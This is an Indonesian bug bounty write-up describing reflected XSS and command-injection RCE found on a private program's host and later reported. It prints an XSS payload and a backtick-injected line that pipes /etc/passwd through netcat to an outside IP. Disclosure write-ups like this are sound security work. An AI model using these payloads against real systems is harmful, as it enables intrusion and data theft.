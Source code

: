 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS on Private Program Cyber Army ID"
date: 2019-02-14 07:00
categories: bugbounty
---
```


### <b>Prolog</b>
Lagi naik KRL dari Tangerang-Jakarta, sambil main HP tiba-tiba ada email undangan private program di [Cyber Army](https://www.cyberarmy.id/),langsung cuz klik terima. Malamnya gw lihat detail programnya, disana diberikan 2 alamat yang masuk dalam scope, yaitu  sub.[redacted].id dan subdomain.[redacted].id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.
- 4 XSS
- 2 RCE

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap sub.[redacted].id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/1.png?raw=true">
</div>


Saat saya buka sub.[redacted].id:8010, disana terdapat form login yang diketahui credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

### POC :
- Script : https://pastebin.com/raw/zZN1pfSY

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/2.png?raw=true">
</div>



### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/3.png?raw=true">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc XXX.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/4.png?raw=true">
</div>

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/5.png?raw=true">
</div>



- 12 February Send Report
- 13 February Validation
- 14 February disclose
- Rewarded


### <b>Reference:</b>
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f

### <b>Thanks:</b>
- Ngesec
- Surabaya Hacker Link
- You!